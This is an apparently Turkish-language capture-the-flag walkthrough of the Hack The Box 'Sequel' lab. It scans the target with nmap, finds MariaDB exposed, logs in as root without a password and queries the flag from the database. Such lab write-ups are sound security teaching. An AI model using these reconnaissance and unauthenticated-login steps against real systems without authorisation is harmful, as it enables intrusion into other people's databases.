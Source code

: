 ---
---

# Sequel

!!! info "Target IP Address"

    10.129.95.232

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.95.232 -sV -sC
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:30 +03
Nmap scan report for 10.129.95.232
Host is up (0.34s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 68
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, ODBCClient, LongColumnFlag, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolOld, SupportsTransactions, FoundRows, Speaks41ProtocolNew, SupportsCompression, Support41Auth, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 216.00 seconds
```

MySQL ile hedefe `root` kullanıcısı olarak giriş yap (kullanıcı `root` olduğunda parola istenmez):

```bash
mysql -h 10.129.95.232 -u root
```

Mevcut veri tabanlarını görüntülemek için aşağıdaki komutu çalıştır:

```text
show databases;
```

Öncelikle `htb` isimli veri tabanını seç:

```text
use htb;
```

Mevcut tabloları görüntülemek için aşağıdaki komutu gir:

```text
show tables;
```

```text title="Output"
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.142 sec)
```

Aşağıdaki komut ile bayrağı ele geçir:

```sql
SELECT * FROM config WHERE name = 'flag';
```
